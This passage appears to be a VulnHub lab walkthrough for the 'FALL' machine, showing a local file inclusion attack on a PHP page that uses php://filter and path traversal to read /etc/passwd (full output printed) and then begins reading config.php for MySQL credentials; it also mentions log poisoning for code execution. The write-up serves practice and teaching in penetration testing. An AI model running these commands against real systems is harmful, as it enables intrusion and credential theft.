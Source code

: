 	[WARN] Caught keyboard interrupt (Ctrl-C)
	```
	![](Pasted%20image%2020220208190041.png)
6. Include files that can lead to RCE
	1. Enumerate files that can lead to RCE
		- Did not find any log files we can poison
	2. Earlier, during [reconaissance phase](#FFUF%20-%20common%20txt), we enumerated `config.php`, `config.php` contains SQL credentials where we could access mysql at `TCP/3306` to obtain user credentials.
		- [`config.php` details](https://docs.cmsmadesimple.org/configuration/config-file)
	3. View source code of `config.php` using `PHP Wrapper, php://filter`
	4. Check if `php://filter` works, by including files that we know exists
		```
		┌──(root💀kali)-[~/vulnHub/Digitalworld.local-FALL/192.168.110.20/exploit]
		└─# curl -s http://192.168.110.20/test.php?file=php://filter/convert.base64-encode/resource=../../../../../etc/passwd | base64 -d
		root:x:0:0:root:/root:/bin/bash
		bin:x:1:1:bin:/bin:/sbin/nologin
		daemon:x:2:2:daemon:/sbin:/sbin/nologin
		adm:x:3:4:adm:/var/adm:/sbin/nologin
		lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
		sync:x:5:0:sync:/sbin:/bin/sync
		shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
		halt:x:7:0:halt:/sbin:/sbin/halt
		mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
		operator:x:11:0:operator:/root:/sbin/nologin
		games:x:12:100:games:/usr/games:/sbin/nologin
		ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
		nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
		systemd-coredump:x:999:996:systemd Core Dumper:/:/sbin/nologin
		systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
		systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
		dbus:x:81:81:System message bus:/:/sbin/nologin
		polkitd:x:998:995:User for polkitd:/:/sbin/nologin
		sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
		cockpit-ws:x:997:993:User for cockpit-ws:/:/sbin/nologin
		rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
		ntp:x:38:38::/etc/ntp:/sbin/nologin
		abrt:x:173:173::/etc/abrt:/sbin/nologin
		rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
		chrony:x:996:991::/var/lib/chrony:/sbin/nologin
		tcpdump:x:72:72::/:/sbin/nologin
		qiu:x:1000:1000:qiu:/home/qiu:/bin/bash
		apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
		nginx:x:995:990:Nginx web server:/var/lib/nginx:/sbin/nologin
		tss:x:59:59:Account used by the tpm2-abrmd package to sandbox the tpm2-abrmd daemon:/dev/null:/sbin/nologin
		clevis:x:994:989:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/sbin/nologin
		mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
		```
	5. Include `config.php`
		```
		┌──(root💀kali)-[~/vulnHub/Digitalworld.local-FALL/192.168.110.20/exploit]
		└─# curl -s http://192.168.110.20/test.php?file=php://filter/convert.base64-encode/resource=config.php | base64 -d
		<?php
		# CMS Made Simple Configuration File
		# Documentation: https://docs.cmsmadesimple.org/configuration/config-file/config-reference
		#